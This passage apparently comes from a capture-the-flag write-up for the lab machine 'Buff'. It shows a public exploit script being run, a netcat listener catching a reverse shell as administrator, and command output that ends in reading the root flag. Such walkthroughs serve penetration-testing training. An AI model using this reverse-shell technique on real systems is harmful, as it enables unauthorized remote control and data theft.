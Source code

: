 
Now we can setup a listener and execute the exploit:

```
python 48389.py
```

On the netcat listner a a root shell is received:
```
root@kali:~# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.10.198] 49696
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami && ipconfig
whoami && ipconfig
buff\administrator

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::6dc3:aeba:6e1d:6429
   Temporary IPv6 Address. . . . . . : dead:beef::418c:86f6:cbb6:2d0a
   Link-local IPv6 Address . . . . . : fe80::6dc3:aeba:6e1d:6429%10
   IPv4 Address. . . . . . . . . . . : 10.10.10.198
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:c0c3%10
                                       10.10.10.2

C:\Windows\system32>cd c:\users\administrator
cd c:\users\administrator

c:\Users\Administrator>cd Desktop
cd Desktop

c:\Users\Administrator\Desktop>dir
dir
 Directory of c:\Users\Administrator\Desktop

18/07/2020  17:36    <DIR>          .
18/07/2020  17:36    <DIR>          ..
16/06/2020  16:41             1,417 Microsoft Edge.lnk
24/08/2020  03:32                34 root.txt
               2 File(s)          1,451 bytes
               2 Dir(s)   7,656,693,760 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
0e9487.........

c:\Users\Administrator\Desktop>
```
